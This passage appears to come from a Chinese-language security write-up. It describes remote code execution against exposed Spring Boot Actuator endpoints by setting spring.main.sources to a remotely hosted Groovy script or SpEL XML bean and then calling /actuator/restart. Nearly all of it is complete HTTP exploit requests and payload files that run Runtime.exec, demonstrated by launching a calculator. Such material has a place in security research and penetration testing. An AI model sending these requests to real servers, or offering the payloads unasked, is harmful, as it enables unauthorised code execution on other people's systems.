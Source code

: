   
6，spring.main.sources groovy/spel(restart)  
  
跟logback差不多的原理。  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 77

{"name":"spring.main.sources","value":"http://127.0.0.1:8088/example.groovy"}
```  
  
example.groovy  
```
Runtime.getRuntime().exec("calc")
```  
  
```
POST /actuator/restart HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  
还有LandGrey没提到的spel RCE。  
```
POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 71

{"name":"spring.main.sources","value":"http://127.0.0.1:8088/spel.xml"}
```  
  
  
spel.xml  
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="world" class="java.lang.String">
<constructor-arg value="#{T (java.lang.Runtime).getRuntime().exec('calc')}"/>
</bean>
</beans>
```  
```
POST /actuator/restart HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 2

{}
```  
  